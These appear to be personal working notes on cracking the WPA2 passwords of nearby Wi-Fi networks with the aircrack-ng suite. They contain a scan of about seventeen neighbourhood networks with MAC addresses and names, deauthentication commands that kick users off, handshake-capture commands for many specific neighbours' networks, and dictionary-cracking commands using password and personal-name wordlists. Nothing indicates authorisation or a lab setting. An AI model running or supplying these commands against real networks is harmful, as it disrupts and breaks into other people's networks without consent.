




```
  BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 5E:87:9C:50:35:9D  -17  16   0    0   1  54e. WPA2 CCMP   PSK  DIRECT-REDESKTOP-S685CSNmsUZ
 68:FE:DA:0A:39:3D  -17  30   0    0  12  54e  WPA2 CCMP   PSK  ChinaNet-T6FC
 82:02:00:0A:13:40  -22  18   0    0   1  54e. WPA2 CCMP   PSK  mimi
 80:12:DF:33:A0:02  -58  16   0    0   1  54e  WPA2 CCMP   PSK  CMCC
 8C:78:D7:BF:17:90  -63   7   0    0   6  54e  WPA2 CCMP   PSK  FAST_1790
 FC:7C:02:9B:13:FF  -65  21   0    0   3  54e  WPA2 CCMP   PSK  5楼
 28:6C:07:D4:CB:29  -65  19   0    0   2  54e  WPA2 CCMP   PSK  xiaoxinshuadaxiang
 2C:55:7C:B8:4B:E2  -66  14   0    0  11  54e  WPA2 CCMP   PSK  ChinaNet-V2QS
 74:05:A5:C0:E4:2E  -67  11   0    0   6  54e  WPA2 CCMP   PSK  TP-LINK_E42E
 3C:E3:E7:EB:AC:24  -70   7   0    0  10  54e. WPA2 CCMP   PSK  CMCC-7aLa
 C0:98:DA:B6:83:0E  -71  17   0    0  13  54e. WPA2 CCMP   PSK  CMCC-1234
 A8:41:22:C9:73:40  -71  18   0    0   7  54e. WPA2 CCMP   PSK  CMCC-j5DF
 B8:27:C5:A0:39:1C  -73   3   0    0   1  54e. WPA2 CCMP   PSK  HUAWEI-wxk
 B8:F8:83:4E:A7:20  -74  12   0    0   1  54e. WPA2 CCMP   PSK  acfun
 C8:3A:35:CE:25:C0  -74  18   0    0   8  54e  WPA2 CCMP   PSK  Tenda_CE25C0
 48:0E:EC:69:07:E2  -75   9   1    0   6  54e  WPA2 CCMP   PSK  常来常往
 DC:72:9B:62:30:60  -76  20   0    0  13  54e  WPA2 CCMP   PSK  ChinaNet-MDux
```


airodump-ng -c 11(CH对应值) -w /root/抓包/er8 --bssid EC:F0:FE:21:C5:DF(mac地址) wlan0mon


## ChinaNet-T6FC      

airodump-ng -c **12** -w **/package/er8** --bssid  **68:FE:DA:0A:39:3D** wlan0mon

aireplay-ng -0 5 -a **68:FE:DA:0A:39:3D** wlan0mon

aircrack-ng -w /top103.txt /package/er8-01.cap


aircrack-ng -w /top103.txt /zhuabao/5楼/er8-01.cap


==aircrack-ng -w /root/dict/密码字典/精简字典/top100.txt /zhuabao/常来常往/er8-09.cap==

==aircrack-ng /zhuabao/5楼/er8-01.cap -w /root/zidian/字典/字典相关/用户名字典/中国姓名字典_拼音_缩写_中文.txt==


## mimi

airodump-ng -c 1 -w /package/er9 --bssid 82:02:00:0A:13:40 wlan0mon

aireplay-ng -0 5 -a 82:02:00:0A:13:40 wlan0mon

aircrack-ng -w /top103.txt /package/er9-01.cap








用另一台虚拟机测试是否断开




==airodump-ng -c 3 -w /zhuabao/5楼/er8 --bssid FC:7C:02:9B:13:FF wlan0mon==
airodump-ng -c 9 -w /zhuabao/CMCC-7aLa/er8 --bssid 3C:E3:E7:EB:AC:24 wlan0mon
airodump-ng -c 6 -w /zhuabao/FAST_1790/er8 --bssid 8C:78:D7:BF:17:90 wlan0mon
==airodump-ng -c 1 -w /zhuabao/CMCC/er8 --bssid 80:12:DF:33:A0:02 wlan0mon==
airodump-ng -c 11 -w /zhuabao/ChinaNet-V2QS/er8 --bssid 2C:55:7C:B8:4B:E2 wlan0mon
airodump-ng -c 8 -w /zhuabao/CMCC-Mhuc/er8 --bssid 44:E6:B0:72:06:4F wlan0mon
airodump-ng -c 8 -w /zhuabao/CU_X4pF/er8 --bssid B8:DD:71:30:ED:33 wlan0mon
airodump-ng -c 3 -w /zhuabao/CMCC-j5DF/er8 --bssid A8:41:22:C9:73:40 wlan0mon
airodump-ng -c 1 -w /zhuabao/acfun/er8 --bssid B8:F8:83:4E:A7:20 wlan0mon
airodump-ng -c 11 -w /zhuabao/CMCC-dP4F/er8 --bssid 04:5F:A7:E8:4E:46 wlan0mon
airodump-ng -c 1 -w /zhuabao/501/er8 --bssid 08:31:A4:E6:0F:D8 wlan0mon
airodump-ng -c 6 -w /zhuabao/Tenda_CE25C0/er8 --bssid C8:3A:35:CE:25:C0 wlan0mon
airodump-ng -c 11 -w /zhuabao/jianhua/er8 --bssid 78:EB:14:76:6B:F2 wlan0mon
airodump-ng -c 6 -w /zhuabao/建峰/er8 --bssid 60:3A:7C:14:9E:C4 wlan0mon
airodump-ng -c 6 -w /zhuabao/CMCC-RR4h/er8 --bssid 50:33:F0:2E:8D:2A wlan0mon
airodump-ng -c 1 -w /zhuabao/heweiqiang/er8 --bssid 48:7D:2E:4B:8A:46 wlan0mon
airodump-ng -c 6 -w /zhuabao/常来常往/er8 --bssid 48:0E:EC:69:07:E2 wlan0mon
airodump-ng -c 6 -w /zhuabao/HUAWEI-wxk/er8 --bssid B8:27:C5:A0:39:1C wlan0mon